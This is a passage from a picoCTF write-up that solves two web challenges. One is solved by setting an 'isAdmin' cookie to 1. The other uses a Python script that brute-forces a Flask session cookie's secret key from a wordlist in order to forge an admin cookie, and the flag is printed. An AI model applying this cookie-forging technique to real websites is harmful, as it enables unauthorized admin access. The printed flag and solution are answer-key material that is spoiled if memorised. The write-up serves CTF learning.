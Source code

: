 __Flag__: This was an easy. All you had to do was the change the value of the cookie `isAdmin` from `0` to `1`. The website then recognized us as the admin and we got this:

<img width="264" alt="{CB0F1273-ACBF-4181-8B0D-C8C7A5306AC2}" src="https://github.com/user-attachments/assets/3d51f114-0190-48c9-b75f-0a2125394b01">

## Most Cookies
__Flag__:`picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

__Solution__: Confusing challenge for me. So this challenge deals with flask cookies. For example our session cookie:`eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZyrxZg.sIwo7Z59uyO8iKRtWLMNolWwpgw`.
Now this cookie is base 64 encoded, so if you decode it you will get: `very auth: blank`. Our goal here, and the way to get the flag is to set `very auth` to `admin`. However, we cannot do that. The thing is the second part of the cookie is signed by an algorithm using a secret key, and without finding that secret key, the server will not accept the cookie. 

Now, the wordlist for the secret key is given in the `server.py` file. Using a python script, we can find the secret key and thus, the admin cookie which we will input.
```
import hashlib
from itsdangerous import URLSafeTimedSerializer
from itsdangerous.exc import BadTimeSignature
from flask.sessions import TaggedJSONSerializer
def flask_cookie(secret_key, cookie_str, operation):
    # This function is a simplified version of the SecureCookieSessionInterface: https://github.com/pallets/flask/blob/020331522be03389004e012e008ad7db81ef8116/src/flask/sessions.py#L304.
    salt = 'cookie-session'
    serializer = TaggedJSONSerializer()
    signer_kwargs = {
        'key_derivation': 'hmac',
        'digest_method': hashlib.sha1
    }
    s = URLSafeTimedSerializer(secret_key, salt=salt, serializer=serializer, signer_kwargs=signer_kwargs)
    if operation == "decode":
        return s.loads(cookie_str)
    else:
        return s.dumps(cookie_str)

# The list of possible secret keys used by the app.
possible_keys = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

# An encoded cookie pulled from the live application that can be used to guess the secret key.
cookie_str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Zyro9w.RZkvSmhhFTnRR7SbIK_n5pt9wyM"

# For each possible key try to decode the cookie.
for possible_secret_key in possible_keys:
    try:
        cookie_decoded = flask_cookie(possible_secret_key, cookie_str, "decode")
    except BadTimeSignature:
        # If the decoding fails then try the next key.
        continue
    secret_key = possible_secret_key
    # Break the loop when we have the corret key.
    break

print("Secret Key: %s" % secret_key)

# The admin cookie has the `very_auth` value set to `admin`, which can be seen on line 46 of the server.py code.
admin_cookie = {"very_auth": "admin"}
# Encode the cookie used the `SecureCookieSessionInterface` logic.
```